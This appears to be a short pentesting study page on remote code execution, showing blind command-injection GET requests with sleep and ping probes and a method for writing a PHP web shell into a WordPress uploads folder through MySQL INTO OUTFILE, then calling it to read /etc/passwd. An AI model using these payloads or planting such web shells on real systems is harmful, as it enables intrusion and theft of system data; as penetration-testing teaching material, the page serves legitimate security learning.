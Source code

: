 ```yaml
---
title: RCE attack - Remote Code Execution
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, web pentesting
---
```


# RCE attack - Remote Code Execution

_RCE_ attacks involve attackers manipulating network traffic by exploiting code vulnerabilities to access a corporate system.

Exploiting Blind Remote Execution Vulnerability attack in a GET request in BurpSuite (to run the queries) and Wireshark (to capture the traffic).

```
________
GET /script.php?c=sleep+5&ok=ok HTTP/1.1
Host 192.168.137.130
User Agent....
...
________
```


Also other command:

```
GET /script.php?c=ping+192.168.139.130+-c+5&ok=ok HTTP/1.1
```



## Gaining a reverse shell from SQL injection

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql pannel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

Now code can be executed from the browser: 

```
https://192.168.56.108:12380/blogblog/wp-content/uploads/shell.php?cmd=cat+/etc/passwd
```
